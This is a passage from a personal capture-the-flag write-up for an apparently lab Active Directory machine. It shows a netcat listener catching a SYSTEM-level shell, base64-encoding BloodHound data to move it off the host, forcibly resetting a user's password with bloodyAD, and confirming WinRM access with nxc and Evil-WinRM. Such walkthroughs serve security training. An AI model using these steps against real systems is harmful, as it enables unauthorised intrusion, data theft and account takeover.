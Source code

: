     ➜  trusted nc -nvlp 443 
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.193.214] 60833
    id
    PS C:\xampp\htdocs\dev> whoami
    nt authority\system

grab BH data at windows

    PS C:\ProgramData> $FileContent = [System.IO.File]::ReadAllBytes("C:\ProgramData\20250115231159_BloodHound.zip")
    [Convert]::ToBase64String($FileContent) | Set-Content -Path "C:\ProgramData\encoded.txt"
     echo -n “encoded.txt” | base64 -d > 20250115231159_BloodHound.zip

![alt text](<../assets/images/3 (2).png>)

## ForceChangePassword

    (myenv) ➜  bloodyAD bloodyAD --host LABDC -d lab.trusted.vl -u rsmith -p IHateEric2 set password ewalters NewPassword123!
    [+] Password changed successfully!
verified
    ➜  trusted nxc winrm LABDC -u users.txt -p 'NewPassword123!' 
    WINRM       10.10.193.214   5985   LABDC            [*] Windows Server 2022 Build 20348 (name:LABDC) (domain:lab.trusted.vl)
    WINRM       10.10.193.214   5985   LABDC            [-] lab.trusted.vl\rsmith:NewPassword123!
    WINRM       10.10.193.214   5985   LABDC            [+] lab.trusted.vl\ewalters:NewPassword123! (Pwn3d!)

first of all i checked C:\ tab if there is something and yeah there is something diffrent

    *Evil-WinRM* PS C:\Users\ewalters\Documents> cd C:\
    *Evil-WinRM* PS C:\> dir
